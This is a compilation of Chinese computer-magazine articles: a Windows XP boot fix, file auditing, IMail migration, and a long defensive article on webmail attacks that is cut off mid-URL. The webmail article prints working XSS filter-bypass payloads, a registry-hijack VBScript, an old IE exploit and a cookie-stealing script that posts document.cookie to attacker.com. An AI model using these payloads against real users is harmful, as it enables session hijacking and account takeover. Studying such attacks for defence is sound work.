**故障的解决：** 解决该故障的关键是使用稳定可靠的驱动程序，替换当前的驱动。如果在 Windows 98 下遇到这样的问题，那你可能首先想到进入安全模式，再从安全模式下删除或替换掉当前驱动。可 Windows XP 的安全模式在哪里呢？其实，找到它也很简单。当你启动 Windows XP 时，出现启动进度条时按 F8 键，即可调出 Windows XP 的启动菜单，从中选择安全模式即可。进入了 Windows XP 的安全模式问题就简单了，最快捷、最简单的方法是使用 Windows XP 的系统还原，将系统恢复到以前的正常状态。当然，你也可以使用 Windows 98 下排除此类问题的老方法，想必大家都能应付，这里不再赘述。

**故障的预防：** 由于使用了不够稳定的 Windows XP 驱动引起的 Windows XP 启动故障比较常见，建议选择 Windows XP 驱动程序时不要太赶时髦，最好不要选择最新的驱动程序，除非你愿意帮忙做测试。

最后提醒大家的是：遇到该类故障不要惊慌失措，一定要冷静，仔细分析故障原因，找到解决故障的方法。祝大家都能用好 Windows XP，充分体验数字生活的乐趣！

## 在Windows XP Professional下如何建立文件审核

文/劲风

配置一个安全的系统最终就是要保证数据的安全，建立文件审核可以记录某文件访问的事件，可以通过它找到非法入侵者。下面，我们来看看如何在 Windows XP Professional 下建立文件审核。

对于管理员来说，日志记录是一个宝藏，日志将所有用户对系统的操作都一一记录在案，翻开日志记录，我们就可以看到黑客的行踪。

Windows XP Professional 操作系统启用了 3 种类型的日志记录事件，它们是应用程序日志、系统日志和安全日志。其中，应用程序日志包含由应用程序记录的事件；系统日志包含了由系统组件记录的事件；而安全日志则可以记录与安全、资源使用有关等事件。

用管理员身份登录，我们可以指定在安全日志中记录的事件。例如，启用“登录审核”，则一切的系统登录尝试均记录在安全日志中，以此监视系统运行的动态。本文介绍如何在“组策略”中启用“文件审核”来记录用户对文件（文件夹）的访问情况，在用户执行某些操作或访问文件时，都可指定将审核项目写入到安全事件日志。日志记录可以通过“事件查看器”来查看，审核项目显示了执行的操作、执行它的用户以及执行操作的日期 and 时间。你可以审核在操作时成功和失败的尝试，以便审核指示器可显示谁在网络上执行操作以及谁试图执行不允许的操作。

需要注意的是：必须以 Administrator（或 Administrators 组的成员）身份登录才能设置文件和文件夹的审核，因为设置的过程中要用到“组策略”，而只有管理员才能使用“组策略”。

在一个新装好的 Windows XP Professional 系统里启用“文件审核”，需要经过如下步骤：

### 1. 显示“安全”选项卡

只有在 NTFS 驱动器上的文件和文件夹才有这个选项，在后边的审核设置的时候用到，所以先将这个选项卡显示出来。

进入“我的电脑”，点击“工具”菜单中的“文件夹选项”，将弹出“文件夹选项”对话框，选中“查看”标签，在“高级设置”里将“使用简单文件共享（推荐）”项前的钩去掉，点击“确定”退出。这样，在 NTFS 驱动器上的每个文件（或文件夹）上的属性里便出现“安全”选项卡了，我们的审核设置正是在这里。

### 2. 启用“审核对象访问”

在设置对文件和文件夹的审核之前，必须启用“审核策略”中的“审核对象访问”设置。否则，在设置文件和文件夹的审核时，将收到错误信息且不会审核任何文件或文件夹。

单击开始→运行，键入 `mmc /a`（mmc 和 /a 之间有个空格隔开），然后单击“确定”。打开窗口。在“文件”菜单上，单击“添加/删除管理单元”，然后单击“添加”，在“管理单元”下，选择“组策略”，然后单击“添加”。

在“选择组策略对象”中，依次单击“本地计算机”、“完成”、“关闭”，最后单击“确定”，此时，“控制台根节点”下出现了“本地计算机策略”。在“本地计算机策略”中，找到并单击“审核策略”。

双击“审核对象访问”，然后在“审核对象访问属性”中的“本地安全设置”中，有个“审核这些操作”栏，执行以下操作：要审核成功的企图，请选中“成功”复选框；要审核未成功的企图，请选中“失败”复选框。

### 3. 设置文件或文件夹的审核

经过上面的设置，现在可以设置文件或文件夹的审核了。笔者将 D 盘下名字为 21cngale 的文件夹建立文件审核。方法：在文件夹 21cngale 上点右键，选择“属性”，在弹出的“21cngale 属性”对话框中，选择“安全”选项卡。单击“高级”，然后单击“审核”选项卡。

要建立新用户或组的审核，请单击“添加”。在“名称”中，键入所希望的用户名或组名称，如 user10，然后单击“确定”。另外，要查看或更改现有组或用户的审核，请单击相应的名称，然后单击“编辑”；要删除现有组或用户的审核，请单击相应的名称后再单击“删除”，接着单击“确定”。

在“文件或文件夹审核项”的“应用到”中，选择审核发生的位置：这里选择“该文件夹，子文件夹及文件”。接着，在“访问”框中，指定事件执行的相关操作。

要审核成功的事件，请选中“成功”复选框；要终止对成功事件的审核，请清除“成功”复选框；要审核未成功的事件，请选中“失败”复选框；要终止对未成功事件的审核，请清除“失败”复选框；要终止对所有事件的审核，请单击“全部清除”。

笔者在这里只建立“成功删除”的审核，如果要防止树中的文件或子文件夹继承这些审核项，请选中“将这些审核项目只应用到这个容器中的对象和/或容器上”复选框。最后一连串地单击“确定”，审核设置工作即可完成。以后凡是用户 user10 对该文件夹及文件夹内的子文件夹及文件成功删除的动作都会被记录在案。

### 4. 日志记录分析——“事件查看器”

既然建立了审核，就要经常查看审核日志记录，一个勤劳的管理员几乎每天都分析一次日志记录。Windows XP 提供了一个日志查看利器——“事件查看器”，下面便利用“事件查看器”查看刚才建立的审核事件发生的情况。

依次进入我的电脑→控制面板→性能和维护→管理工具，双击“事件查看器”图标，打开“事件查看器”。在窗口左边的“事件查看器（本地）”目录树中单击“安全性”，便可以在窗口右边看到所记录的事件。

要查看具体的事件记录，可以直接双击该事件；将会弹出“事件详细信息”对话框。从记录可以看出，user10 这个用户曾经将我 D 盘“21cngale”目录下的“劲风.txt”文本文档成功地删除过。继续往下看，发现“对象名称”栏里有个“D:\21cngale\11.txt”，我的文件夹里先前是没有这个文件的，现在也没有。但从日志记录可以看出，用户 user10 曾经在这个文件夹里新建过一个名为“11.txt”的文本文件，经过一系列的读、写操作后，又将其删除了。user10 对 21cngale 的操作已被监视！这些行为都是从文件夹和回收站里看不出的。

---

## IMail 的迁移与群件

文/momo

> IMail Server 是一种易于使用的邮件服务器。不过，有时候还是会碰见一些麻烦，比如在邮件系统的迁移和邮件列表的创建时。

常规下备份和恢复 IMail 还是比较简单的，首先是备份 IMail 的安装目录下面的所有内容（默认就是 IMail），恢复到新的安装目录即可；然后是备份注册表，这有两种办法，一种是使用 IMail 自带的备份功能，点击 General 的 Backup，会在安装目录中出现你所指定名字的文件，或者是直接备份注册表的 `HKEY_LOCAL_MACHINE\SOFTWARE\Ipswitch\IMail`，然后导入即可。

但是，有的时候如果两个 IMail 的数据结构不一样时，就会对迁移带来一些麻烦。实际上原来自己是独占一台服务器，IMail 只是对应一个邮件服务器。由于其他原因，现有的邮件服务器要迁移到另外一台服务器上，而新服务器上的 IMail 已经有了邮件服务器，也就是说，新的 IMail 要对应多个邮件服务器。

问题是这样产生的：IMail 的默认邮件服务器的路径直接使用 IMail 目录，比如用户信息就直接是在 Users 下。如果按照常理恢复，必将导致数据发生冲突。解决的办法是首先在 IMail 里面建立一个新的 Host，比如“test.com”，这个时候你会发现相应的文件目录中，在 IMail 下面出现了一个 test_com 的目录，把备份的数据放置在这个目录下面。接下来恢复你备份的注册表，在注册表的结果中已经把每个 Host 分开存放。下面要修改对应的目录，选中 test.com，点击 General，在 Top Directory 中将原来的 `C:\imail` 修改为 `C:\IMail\Test_com`。这个时候发现 TCP/IP Address 中的 IP 依旧为原来 IP，而且还是不可修改的，可以进入注册表进行修改，在 `HKEY_LOCAL_MACHINE\SOFTWARE\Ipswitch\IMail\Domains`，找到你原来的 IP，然后进行修改。

下面的问题是针对 IMail 的群件的。在 IMail 里面，群件是比较简单的，只需要在 Lists 中创建，然后在 Users 中用 Add 创建即可。但在应用中如果依靠这样建立列表可能会觉得很繁琐。

下面把我实际应用中的经验和大家一起分享：我们公司有一个通讯录，Excel 格式的。表大概分部门、姓名、邮件地址、电话等几栏。首先分析一下 IMail 群件的存放位置和格式，它是在 Lists 目录下面按照群件不同名字建立相应的目录，Lists 目录下面有一个 Lists.txt 的文件里面是你建立的群件名字和别名的对照，每个子目录下面有两个文件，一个是 Users.LST，用来存放 Address 信息，格式是：`<Test@test.com>`；一个是 Users.txt，用来存放 Users 信息，格式是：`<Test@test.com> "test"`。

如果利用 Excel 的功能就很好实现了。通讯录的格式是类似 test 字样，可以在其他栏中输入 `<@test.com>`，然后利用函数 “CONCATENATE” 把几栏合并成为新的一栏。最后把该栏复制到记事本存为 Users.lst 文件，Users.txt 文件按照相同的方法制作（注意 " 前面有个空格），最后复制到相应的目录。

另外还要谈到的就是群件的安全性问题，默认建立群件的时候是 Anyone 都可以发送的。后来采用 Security 中的 Subscribe 选项，但是只有群件中的用户才可以对群件进行发送，这就有了弊端。解决的办法有两个，一个是在 Security 的 Use Password 中输入 Password。但我比较推崇使用 Enable Posters List 选项，在 Edit Posters 中输入可以发送的人员的列表。也可以制作一个全部使用人员的文件，名字叫做 Posters.lst，然后复制到每个群件的对应目录中就好了。

整体来说，IMail 这个软件容量不大，功能还是很完善的，由于目录和注册表的结构都比较清晰，给了用户对软件进行修改和二次开发的方便。

---

### Webmail 攻防实战

文/孤风扬

每一个注册过免费电子邮箱的网友都会通过邮箱提供商的主页收发个人邮件，这就是所谓的 Webmail 收发方式。相比用 Foxmail、Outlook Express 等邮件客户端而言，Webmail 方式的优势在于突破了地域和上机地点限制，但 Webmail 收发邮件的安全隐患也是显而易见的。

Webmail 是指利用浏览器通过 Web 方式来收发电子邮件的服务或技术。由于用户的使用不当或者 Webmail 系统的开发不周，都有可能给 Webmail 的使用带来更多的安全威胁。

### 一、邮件地址欺骗

邮件地址欺骗是非常简单和容易的。攻击者针对用户的电子邮件地址，取一个相似的电子邮件名，在 Webmail 的邮箱配置中将“发件人姓名”配置成与用户一样的姓名，然后冒充该用户发送电子邮件。在他人收到邮件时，往往不会从邮件地址、邮件信息头等上面做仔细检查。例如某用户的电子邮件名是 wolfe，攻击者就会取 wolfe、wolfe_、wolfee、woolfe 之类相似的电子邮件名来进行欺骗。

在 RFC 822 中明确定义了发件人地址和回复地址可以不一样。由于用户在收到某个邮件时，虽然会检查发件人地址是否真实，但在回复时，并不会对回复地址做出仔细的检查。所以，如果配合 SMTP 欺骗使用，发件人地址是受攻击用户的地址，回复地址则是攻击者自己的地址，诱骗他人将邮件发送到攻击者的电子邮箱中。

鉴于邮件地址欺骗的危险性，我们不得不时时提防。对于 Webmail 系统而言，提供邮件信息头内容检查、SMTP 认证等服务技术是非常有必要的。对邮件用户而言，认真检查邮件的发件人邮件地址、发件人 IP 地址、回复地址等邮件信息头内容也是很重要的。

### 二、Webmail 暴力破解

Webmail 的密码验证通常是通过客户端以提交表单的形式实现的。用户输入账户名、密码并提交后，服务端对其进行验证。

因此，攻击者借助一些黑客工具（如 wwwhack、小榕的溯雪等），不断地用不同的密码尝试登录，通过比较返回页面的异同，判断出邮箱密码是否破解成功。尤以溯雪的功能最为强大，它通过分析和提取页面中的表单，给相应的表单元素挂上字典文件进行探测。

许多 Webmail 系统都采取了相应的防范措施，一般有如下 3 种：

-   **1. 禁用账户**
    把受到暴力破解的账户禁止一段时间登录（一般是 5~10 分钟）。但如果攻击者持续尝试，则该账户会一直处于禁用状态，导致真正的用户不能访问，从而形成 DoS 攻击。

-   **2. 禁止 IP 地址**
    把进行暴力破解的 IP 地址禁止一段时间。但这势必导致在网吧、公司、学校等共用一个出口 IP 的用户不能使用该 Webmail。如果攻击者采用多个代理地址循环攻击，则难以防范。

-   **3. 登录检验**
    在页面中包含一个随机产生的检验字符串（验证码），只有正确输入才能登录。如果检验字符串是包含在图片中，且图片文件名随机产生，攻击者就很难开发出工具进行破解，Yahoo 邮箱就是一个例子。

防范 Webmail 暴力破解主要靠用户自己采取良好的密码策略，如密码足够复杂、定期更改等。

### 三、邮箱密码恢复

大多数 Webmail 系统都会向用户提供邮箱密码恢复机制，让用户回答一系列问题。如果密码恢复机制不够合理，就会被攻击者利用。

下面是许多 Webmail 系统采取的密码恢复步骤：

-   **第一步，输入账户：** 提示用户输入要恢复密码的邮箱账户。
-   **第二步，输入生日：** 提示用户按年月日输入。

自己的生日。这一步对攻击者而言也很轻松，年月日的排列组合很小，借助测速等工具很快就能穷举破解出来，所以 Webmail 系统有必要在此采取暴力破解防范措施。并且每个用户需要注意的是，攻击者不一定来自地球的另一端，很可能就是你身边的人，或许这些人更想知道你邮箱里有什么秘密，而他们要弄清你的生日往往是件轻而易举的事情，你不是昨天才过了生日 Party 吗？你不是刚刚把身份证复印件交给人事部吗？所以，为了邮箱安全，用户是不是要把真实的生日作为邮箱注册信息，Webmail 系统是不是一定要用户输入真实的生日作为注册信息，这还有待考虑。

第三步，问题回答：提示用户回答自己设定的问题，答案也是用户自己设定的答案。在这一步，攻击者往往只有靠猜测，不幸的是，很多用户的问题和答案是如此的简单，以至于攻击者能轻易地猜测出来，例如提出的问题只是知识性的问题，提出的问题和答案相同等。攻击者对用户越熟悉，成功的可能性就越大。例如有用户问“你男朋友是哪里人”，殊不知，攻击者正是她的男朋友。所以，用户把问题设置成唯有自己知道的答案至关重要，这样攻击者才很难得逞。不过不要忘了答案，否则就得不偿失了。

在用户正确完成以上各步骤以后，Webmail 系统就会让用户恢复自己邮箱账户的密码。密码恢复的方式又各有不同，一般有如下几种方式，安全程度各有不同：

- **1. 页面返回**
  返回的页面里显示用户的邮箱密码。这样做虽然方便省事，但是如果让攻击者得到密码，则能在丝毫不惊动用户的情况下使用用户的邮箱，使得攻击者能长期监视用户的邮箱使用情况，给用户带来更大的安全隐患。

- **2. 邮件发送**
  将密码发送到用户注册时登记的另一个邮箱里。对于攻击者来说，忙了半天，仍然是一无所获，除非继续去攻击另一个邮箱；对于用户来说，在另一个邮箱里收到发来的密码则是一个警告，说明有攻击者猜测到了他的邮箱密码提示问题，迫使用户尽快改变自己的密码提示问题。
  
  不过，如果用户注册时登记的不是一个正确的邮箱，或者该邮箱已经失效，那么，这样不仅是攻击者，就是用户本人也永远得不到密码了。有些 Webmail 系统在注册时要求用户登记正确的邮件地址，并把邮箱开通的验证信息发往该邮件地址，不过这样仍然不能避免用户在邮箱失效后不能恢复自己邮箱密码的情况发生。

- **3. 密码重设**
  让用户重新设置一个密码。相比“页面返回”方式，这种方式在攻击者重设密码后，用户因为不能正常登录进自己的邮箱而能察觉出受到攻击，安全性相对好一些。但是，相比“邮件发送”方式，因为攻击者能立即修改邮箱密码，少了一层保障，安全性又差一些。

由“页面返回”或“邮件发送”回来的密码可以明显看出，该电子邮件系统是把邮箱账户的密码未经加密直接以明文保存在数据库或 LDAP 服务器中。这样就造成很大的安全隐患，Webmail 系统管理员或侵入数据库的攻击者能轻易获取用户的邮箱密码，用户却完全不知情，所以为了加大保密性，有必要将邮箱密码加密后再以密文存入数据库，最好用不可逆的单向加密算法，如 MD5 等。

邮箱密码恢复机制是否安全，主要还是看 Webmail 系统提出什么样的问题、采取什么样的问答方式，例如将多个密码恢复步骤中提出的问题放在一步中一起提出，就会相应地增加攻击者的难度，从而提高安全性，像搜狐邮件、新浪邮件和 Yahoo 电邮等都是一些令攻击者失望的例子。

## 四、恶性 HTML 邮件

电子邮件有两种格式：纯文本（TXT）和超文本（HTML）。HTML 邮件由 HTML 语言写成，当通过支持 HTML 的邮件客户端或以浏览器登录进入 Webmail 查看时，有字体、颜色、链接、图像、声音等等，给人以深刻的印象，许多垃圾广告就是以 HTML 邮件格式发送的。

利用 HTML 邮件，攻击者能进行电子邮件欺骗，甚至欺骗用户更改自己的邮箱密码。例如攻击者通过分析 Webmail 密码修改页面的表单元素，设计一个隐含有同样表单的 HTML 页面，预先给“新密码”表单元素赋值，然后以 HTML 邮件发送给用户，欺骗用户说在页面中提交某个表单或点击某个链接就能打开一个精彩网页，用户照做后，在打开“精彩网页”的同时，一个修改邮箱密码的表单请求已经发向 Webmail 系统，而这一切，用户完全不知情，直到下次不能登录进自己邮箱的时候才发觉。

为了防止此类 HTML 邮件欺骗，在修改邮箱配置时，特别是修改邮箱密码和提示问题时，Webmail 系统有必要让用户输入旧密码加以确认，这样能有效防止截取到当前 Webmail 会话的攻击者（下面会介绍）更改邮箱密码。

通过在 HTML 邮件中嵌入恶性脚本程序，攻击者还能进行很多破坏攻击，如修改注册表，非法操作文件、格式化硬盘、耗尽系统资源、修改“开始”菜单等，甚至能删除和发送用户的邮件、访问用户的地址簿、修改邮箱账户密码等等。恶性脚本程序一般由 JavaScript 或 VBScript 脚本语言写成，内嵌在 HTML 语言中，通过调用 ActiveX 控件或者结合 WSH 来达到破坏攻击目的。深受修改浏览器的恶性 HTML 页面之痛，饱经“欢乐时光”邮件病毒之苦的朋友，对此应该不会陌生。下面是两个简单的恶性脚本程序：

- **1. 打开无数个浏览器窗口，直至 CPU 超负荷，非关机不可：**

```html
<script language="JavaScript">
<!--
while (true)
{
    window.open('URI')    // 如果 URI 就是当前页本身，那就更具破坏性。
}
//-->
</script>
```

- **2. 修改注册表**

```vb
<script language="VBScript">
Set RegWsh = CreateObject("WScript.Shell")
' 设置 IE 浏览器默认页
RegWsh.RegWrite _
"HKCU\Software\Microsoft\Internet Explorer\Main\Start Page", "http://www.attacker.com"
</script>
```

鉴于脚本程序可能带来的危险，Webmail 系统完全有必要禁止 HTML 邮件中的脚本程序。禁止脚本程序的基本做法就是过滤掉 HTML 源程序中能够使脚本程序运行的代码，如 Script 元素等，在这方面做得最好的莫过于 Hotmail 了。下面是些常见的绕过脚本程序过滤的方法，不少的 Webmail 系统仍然没有完全改正：

（1）在 HTML 语言里，除了 Script 元素内的或在 Script 元素内引入的脚本程序能在 HTML 页面装载时被运行外，使用事件属性也能调用脚本程序运行。事件属性在 JavaScript 语言里被称为事件句柄；用于对页面上的某个特定事件（如鼠标点击、表单提交）做出响应，驱动 JavaScript 程序运行。它的语法如下：

```html
<tag attribute1 attribute2 onEventName="javascript-code;">
例如：
<body onload="alert('JavaScript#1 is executed')">
<a href="#" onclick="alert('JavaScript#2 is executed');">Click here</a>
<form method="post" action="#" onsubmit="alert('JavaScript#3 is executed');">
    <input type="submit" value="Submit">
</form>
</body>
```

（2）URI（Universal Resource Identifier：通用资源标识）用于定位 Internet 上每种可用的资源，如 HTML 文档、图像、声音等。浏览器根据 URI 的资源类型（URI scheme）调用相应的程序操作该资源，如果把一些元素的 URI 属性值的资源类型设为 javascript，则能够调用 JavaScript 程序运行。语法如下（注意要用“;”分隔不同的 JavaScript 语句）：

```html
<tag attribute="javascript:javascript-code;">
例如：
<body background="javascript:alert('JavaScript#1 is executed');">
<a href="javascript:alert('JavaScript#2 is executed');">Click here</a>
<form method="post" action="javascript:alert('JavaScript#3 is executed');">
    <input type="submit" value="Submit">
</form>

</body>
```

（3）由于软硬件或其他原因，一些冷僻或特殊的字符不能输入或正确显示在 HTML 页面上，为了解决这个问题， HTML 中可以使用 SGML 字符参照。字符参照是一种用来指定文档字符集中任何字符的独立编码机制，以“&”开始，以“;”结束。字符参考有两种表达方式：数字字符参考和实体字符参考。数字字符参考的语法为“&#D;”（D代表一个十进制数），或“&#xH;”、“&#XH;”（H代表一个十六进制数），例如“&#65;”、“&#x41;”表示字母“A”，“&#27700;”、“&#x6C34;”表示汉字“水”。

攻击者把 HTML 语句里的一些字符以数字字符参考来代替，这样能避开 Webmail 系统对脚本程序的过滤。需要注意的是，元素和属性不可以用字符参考表示，例如：

```html
<body>

<a href="&#x6a;va&#x41;s&#67;ript&#x3a;alert&#x72;('JavaScript#2 &#x69;&#x73; executed')">click here&#65;</a>
<form method="post" action="javascript:alert('JavaScript#3 is executed')">
<input type="&#x53;ubmit" value="Submit">
</form>
</body>
```

（4）样式表是层叠样式表单（CSS：Cascading Style Sheet）的简称，用于控制、增强或统一网页上的样式（如字体、颜色等），它能够将样式信息与网页内容相分离，在 HTML 语言的 style 标签内可以用 @import 声明输入一个样式表。但是，如果输入的资源类型或内容是 JavaScript，Internet Explorer 浏览器仍然会执行。例如：

```html
<style type="text/css">
<!--
@import url(javascript:alert('JavaScript#1 is executed'));
@import url(http://www.attacker.com/js.css)
-->
</style>

其中 http://www.attacker.com/js.css 的内容如下所示：

@import url(javascript:alert('JavaScript#2 is executed'));
@import url(javascript:eval(String.fromCharCode(...)));
```

能够绕过 Webmail 系统对脚本程序过滤的方法远不止上面所说的这些，例如曾有人发现把“\<script>”标签改成“\<_a\<script>”和“\<<script>”的样子就能绕过 Yahoo 电邮的过滤，这个漏洞 Yahoo 在最近才改正过来。

除了可以在 HTML 邮件中直接嵌入脚本程序外，攻击者还可以设计一些 HTML 代码，在用户打开 HTML 邮件时，不知不觉引入另一个 HTML 文件，而此文件中正含有恶性代码，这样不仅能直接绕过 Webmail 系统对脚本程序的过滤，而且还能有效避开提供了防毒服务的邮件系统对恶性代码的查杀。下面是几个调用 HTML 文件的例子：

- **1. Refresh 到另一个页面**

```html
<body>
<meta http-equiv="refresh" content="1;URL=http://www.attacker.com/another.html">
</body>
```

- **2. Iframe 引入另一个页面**

```html
<body>
<iframe src="http://www.attacker.com/import.html" frameborder="0"></iframe>
</body>
```

- **3. Scriptlet 引入另一个页面**

```html
<body>
<object type="text/x-scriptlet" data="http://www.attacker.com/import.html"></object>
</body>
```

- **攻击者还可以采取如下方法，使带有恶性代码的 HTML 邮件具有更大的隐蔽性：**

1. 配合邮件欺骗技术，使用户不会怀疑收到的邮件，并且攻击者也能隐藏自己的行踪；
2. 把 HTML 邮件设计成看起来像 TXT 邮件；
3. 有时可以把 HTML 邮件中的恶性代码放在一个隐藏的层里面，表面上看不出任何变化。

针对恶性脚本程序的影响，对用户常见的建议办法是提高浏览器的安全级别，如禁用 ActiveX、脚本等，但这并不是一个很好的办法，因为这样会影响到用户对其他正常 HTML 页面的浏览。即使浏览器达到了最高级别，依然对某些恶性代码无济于事。下面是一位以色列安全专家发现的漏洞，能让 Windows 系统自动执行任何本地程序，即使 Internet Explorer 已经禁止了 ActiveX 和脚本程序：

```html
<span datasrc="#oExec" datafld="exploit" dataformatas="HTML"></span>
<xml id="oExec">
<security>
<exploit>
<![CDATA[
<object id="oFile" classid="clsid:11111111-1111-1111-1111-111111111111" codebase="c:/winnt/system32/calc.exe"></object>
]]>
</exploit>
</security>
</xml>
```

面对恶性 HTML 邮件，Webmail 系统和用户似乎都没有很好的解决办法，虽然许多 Webmail 系统已经能够过滤掉 HTML 邮件中的很多恶性代码。不过令人遗憾的是，要想彻底过滤掉恶性代码并不是一件容易的事情，攻击者总能利用 Webmail 系统过滤机制和浏览器的漏洞找到办法绕过种种过滤， Webmail 系统所能做的就是发现一个漏洞弥补一个漏洞。

为了减少乃至避免恶性 HTML 邮件的影响，在打开 HTML 邮件之前，Webmail 系统有必要提醒用户这是一个 HTML 邮件，如果能提供让用户以文本方式浏览 HTML 邮件的功能，则是最好不过。在打开不明邮件之前，用户更要小心谨慎，最好把 HTML 邮件“目标另存为”到本地硬盘上再打开来看，如果能先查看 HTML 邮件源代码，则是最好不过的。

另外需要特别提醒用户注意的是，虽然一些电子邮件系统会在 Webmail 系统上对 HTML 邮件中的恶性代码进行过滤，但在 POP3 服务器上不会进行过滤，所以，如果是通过邮件客户端收取邮件，仍然要谨防恶性 HTML 邮件的危害。

## 五、Cookie 会话攻击

当用户以自己的邮箱账户和密码登录进 Webmail 以后，如果再让用户对每一步操作都输入密码加以确认，就会让人不胜其烦。所以 Webmail 系统有必要进行用户会话跟踪，Webmail 系统用到的会话跟踪技术主要有两种：Cookie 会话跟踪和 URL 会话跟踪。

Cookie 是 Web 服务器保存在用户浏览器上的文本信息，可以包含用户名、特殊 ID、访问次数等任何信息，通常此信息用于标识访问同一 Web 服务器上的不同用户，在浏览器每次访问同一 Web 服务器时会发送过去，用于跟踪特定客户端或浏览器与 Web 服务器进行交互的状态。

Cookie 的类型有两种：持久型和临时型。持久型 Cookie 以文本形式存储在硬盘上，由浏览器存取。使用了持久型 Cookie 会话跟踪的 Webmail 系统有 Hotmail、Yahoo 电邮（可选）等。临时型 Cookie 也称为会话 Cookie，存储在内存中，仅为当前浏览器的对话存储，关闭当前浏览器后会立即消失。ASP、PHP4 等开发程序中用到的 Session 对象就会产生临时型 Cookie。使用了临时型 Cookie 会话跟踪的 Webmail 系统有 FM365、亿邮等。

如果攻击者能够获取用户 Webmail 的 Cookie 信息，那么就能很容易地侵入用户的 Webmail。攻击者如何获取用户 Webmail 的 Cookie 信息呢？如果攻击者在用户的电脑上安装了木马，或者能够从网络线路上对用户进行嗅探侦听，那么获取 Cookie 信息自然不成问题，不过这并不是我们讨论问题的意义所在，因为都能够这样了，又何必大费周折去获取 Cookie 信息，直接获取邮箱密码就是了。

如果 Webmail 系统存在跨站脚本执行漏洞，那么攻击者就能欺骗用户从而轻易地获取 Cookie 信息。虽然众多网站存在此漏洞，但存在此漏洞的 Webmail 系统还是很少见。

含有恶性脚本程序的 HTML 邮件能够使攻击者获取 Webmail 的 Cookie 信息。HTML 邮件中的脚本程序先提取当前 Webmail 的 Cookie 信息，然后把它赋值给某个表单元素，再将表单自动提交给攻击者，攻击者从而获得 Cookie 会话信息。下面是一段演示程序：

```html
<body>
<form method="post" action="http://attacker.com/getcookie.cgi" name="myform">
<input name="session" type="hidden">
</form>
<script language="JavaScript">
var cookie=(document.cookie);
``````html
alert(cookie); // 这段程序显示当前 cookie 信息

document.myform.session.value=cookie;
document.myform.submit();
```

getcookie.cgi 是放在攻击者 Web 服务器上的一个 CGI 程序，用于获取表单提交过来的 Cookie 信息，并且做记录或者通知攻击者。当然，攻击者会把 HTML 邮件、getcookie.cgi 程序设计得更隐蔽，更具欺骗性，让用户难以察觉。

通常，浏览器根据 Web 服务器的域名来分别保存 Cookie 信息，并且只会把 Cookie 信息发送给同一域名的 Web 服务器；不过，浏览器的漏洞给攻击者获取不同域名的 Cookie 信息创造了机会，Internet Explorer、Netscape 和 Mozilla 等被广泛使用的浏览器都存在过此类漏洞。下面是几个 Internet Explorer 浏览器（针对 IE5.0、IE5.5 或 6.0）泄漏 Cookie 信息的例子：

- 1. HTML 语言中的 object 元素用于在当前页面内嵌入外部对象，但 Internet Explorer 浏览器对 object 元素属性的处理不当会导致任意域的 cookie 信息被泄漏，演示代码如下：

```html
<object id="data" data="empty.html" type="text/html"></object>
<script>
var ref=document.getElementById('data').object;
ref.location.href='http://www.anydomain.com';
setTimeout('alert(ref.cookie)',5000)
</script>
```

- 2. Internet Explorer 浏览器错误处理 “about” 协议使得一个精心构造的 URL 请求可能会显示或修改任意域的 Cookie 信息，例如（以下代码在同一行）：

```html
about:<script language=JavaScript>alert(document.cookie)</script>
```

- 3. Internet Explorer 浏览器会误把 URL 中 “%20”（空格符的 URL 编码）字符串之前的主机名当做 cookie 信息所在的域，并且发送出去。假设攻击者有一个域名 “attacker.com”，攻击者把它做成泛域名解析，即把 “*.attacker.com” 指向攻击者 Web 服务器所在的 IP 地址，“attacker.com” 下的任何子域名或主机名都会被解析成这个 IP 地址，当用户提交了类似下面这样的 URL 后，浏览器就会把 “anydomain.com” 域名的 Cookie 信息发送给攻击者：

`http://anydomain.com%20.attacker.com/getcookie.cgi`

如果攻击者要获取 Webmail 的临时型 Cookie 信息，就会在 HTML 邮件中写入相应的代码，在用户浏览邮件时，该代码自动执行，使得攻击者能够获取当前浏览器里的临时 Cookie 信息；也可以把用于获取 cookie 信息的 URL 发送给用户，诱骗用户打开该 URL，这样攻击者也能获取临时 Cookie 信息。

在攻击者获取 Cookie 信息后，如果 Cookie 信息里含有密码等敏感信息，那么攻击者就能很轻易地侵入用户的邮箱，虽然 Hotmail 等 Webmail 系统曾经发生过此类的情况，但 Cookie 信息泄漏敏感信息的 Webmail 系统还很少见。

攻击者在获取 Cookie 信息之后，还要让此 Cookie 信息由浏览器来存取，从而与 Webmail 系统建立会话，这样才能侵入用户的 Webmail。如果是持久型 Cookie 信息，攻击者所要做的是把这个信息复制到自己的 Cookie 文件中去，由浏览器存取该 Cookie 信息从而与 Webmail 系统建立会话，不过临时 Cookie 信息存储在内存中，并不容易让浏览器存取。

为了让浏览器存取临时 Cookie 信息，攻击者可以编辑内存中的 Cookie 信息，或者修改公开源代码的浏览器，让浏览器能够编辑 Cookie 信息。不过，这样都不是很简便的方法，简便的方法是使用 Achilles 程序（packetstormsecurity.org 网站有下载）。Achilles 是一个 HTTP 代理服务器，能够截取浏览器和 Web 服务器间的 HTTP 会话信息，并且在代理转发数据之前可以编辑 HTTP 会话以及临时 Cookie 信息。

Webmail 系统应该避免使用持久型 Cookie 会话跟踪，使攻击者在 Cookie 会话攻击上不能轻易得逞。为了防止 Cookie 会话攻击，用户可以采取如下措施以加强安全：

- 1. 设置浏览器的 Cookie 安全级别，阻止所有 Cookie，或者只接受某几个域的 Cookie。
- 2. 使用 Cookie 管理工具，增强系统 Cookie 安全性，如 Cookie Pal、Burnt Cookies 等。
- 3. 及时给浏览器打补丁，防止 Cookie 信息泄漏。

Cookie会话跟踪除了上面提到的安全缺陷外，还存在如下缺点：

- 1. 并不是每个浏览器都支持Cookie，有些用户为了防止泄露隐私以及从安全性上考虑，可能会禁用浏览器的Cookie。
- 2. 由于功能限制或者设置有误，代理服务器不能够代理Cookie，导致通过代理服务器上网的用户不能登录进入以Cookie进行会话跟踪的Webmail。

不过，即使Webmail系统的URL会话机制再复杂、会话标识再长，对攻击者而言，要想获得用户Webmail的URL，往往就像探囊取物一般容易。

## 六、URL会话攻击

一些Webmail系统在客户端不支持Cookie时拒绝提供Webmail服务，如新浪邮件、搜狐邮件等许多Webmail系统，而另一些Webmail系统则视用户为上帝，使用URL会话跟踪技术来维护与客户端交互的状态，如163.net、263.net、21cn.com等。

URL会话跟踪是把一些标识会话的字符串加在URL里面，对于客户端的每一个HTTP连接请求，服务器都会把URL里的会话标识和它所保存的会话数据关联起来，从而能够区分不同的客户端，以及进行用户会话跟踪。下面是在浏览器的地址栏里看到的一些Webmail的URL，看起来会很长，甚至有些怪：

```
http://bjWeb-163-net/cgi/ldapp?funcid=main&sid=HAPGfUDusCLAQSlm
